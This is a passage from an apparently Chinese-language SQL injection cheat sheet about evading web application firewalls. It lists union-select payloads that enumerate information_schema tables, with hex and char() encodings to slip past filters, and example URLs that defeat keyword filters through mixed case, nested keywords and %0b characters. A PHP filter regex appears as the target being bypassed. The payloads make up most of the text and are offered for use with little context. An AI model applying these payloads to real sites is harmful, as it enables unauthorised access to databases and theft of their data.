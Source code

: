 过滤注入： `1 or 1 = 1` <br>

```sql
过滤注入： 1 union select 1,table_name from information_schema.tables where table_name='users'
过滤注入： 1 union select 1,table_name from information_schema.tables where table_name between 'a' and 'z'
过滤注入： 1 union select 1,table_name from information_schema.tables where table_name between char(97) and char(122)
绕过注入： 1 union select 1,table_name from information_schema.tables where table_name between 0x61 and 0x7a
绕过注入： 1 union select 1,table_name from information_schema.tables where table_name like 0x7573657273
```

-------


### <span id = "hunxiao">常见混淆绕过技术</span>

变换大小写，<br>

某些WAF仅过滤小写的SQL关键词 <br>

正则表达式过滤：
```php 
preg_match ('/(union|sselect)/i',$id)
```

**`/g`** (全文查找出现的所有匹配字符) <br>

绕过，例：
```sql
http://www.xxx.com/index.php?id=1+UnIoN/**/SeLecT/**/1,2,3-- 
```

----------


替换关键词，<br>

某些程序和WAF用preg_replace函数来去除所有的SQL关键词。<br>

关键词 `union` 和 `select` 被去除，<br>

绕过，例：
```sql
http://www.xxx.com/index.php?id=1+UNunionION+SEselectLECT+1,2,3--
```

----------

某些情况下SQL关键词被过滤掉并且被替换成空格。因此我们用**`%0b`**来绕过。

绕过，例：
```sql
http://www.xxx.com/index.php?id=1+uni%0bon+se%0blect+1,2,3--
```

---------

对于注释 **`/**/`** 不能绕，那么我们用 **`%0b`** 代替 **`/**/`** 。<br>
